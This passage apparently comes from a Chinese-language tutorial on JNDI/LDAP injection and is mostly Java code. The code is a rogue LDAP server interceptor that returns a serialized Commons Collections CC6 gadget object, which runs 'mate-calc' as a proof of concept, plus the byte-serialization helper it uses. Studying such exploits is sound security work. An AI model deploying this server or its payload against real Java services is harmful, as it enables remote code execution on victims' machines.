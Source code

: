 ```java
        private URL codebase;


        /**
         *
         */
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }


        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }

        }


        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaSerializedData", SerializeUtils.serialize(new CC6().getPocObject("mate-calc")));

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```
其中，SerializeUtils.serialize 用于将对象序列化得到 bytes 数组：
```java
    public static byte[] serialize(Object o) throws Exception{
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(o);
        oos.close();
        bos.close();
        return bos.toByteArray();
    }
```